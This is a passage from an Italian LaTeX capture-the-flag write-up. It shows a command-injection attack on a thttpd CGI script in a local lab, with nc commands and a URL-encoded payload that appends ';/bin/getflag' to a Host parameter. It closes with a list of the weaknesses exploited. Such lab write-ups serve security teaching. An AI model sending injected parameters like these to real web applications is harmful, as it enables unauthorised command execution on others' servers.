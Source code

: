 \begin{lstlisting}[style=bashstyle]
    nc localhost 7007
\end{lstlisting}
Proviamo a recuperare la risorsa associata all'URL / con:
\begin{lstlisting}[style=bashstyle]
    nc localhost 7007 
    GET / HTTP/1.0
\end{lstlisting}
Notiamo che l'accesso a / è proibito, ma scopriamo che il server è effettivamente thttpd.
Quindi proviamo l'attacco connettendoci al server e invocando lo script con input URL encoded:
\begin{lstlisting}[style=bashstyle]
    nc localhost 7007 
    GET /index.cgi?Host=8.8.8.8%3B%2Fbin%2Fgetflag
\end{lstlisting}

\subsection{Sintesi comandi da eseguire}
\begin{lstlisting}[style=bashstyle]
    nc localhost 7007 
    GET /index.cgi?Host=8.8.8.8%3B%2Fbin%2Fgetflag
\end{lstlisting}
Vinciamo la sfida.

\subsection{Debolezze}
\begin{itemize}
    \item Il Web server thttpd esegue con privilegi di esecuzione ingiustamente elevati, ovvero quelli dell'utente “privilegiato” flag07.
    \item Se un'applicazione Web che esegue comandi non neutralizza i “caratteri speciali” è possibile iniettare nuovi caratteri in cascata ai precedenti.
\end{itemize}

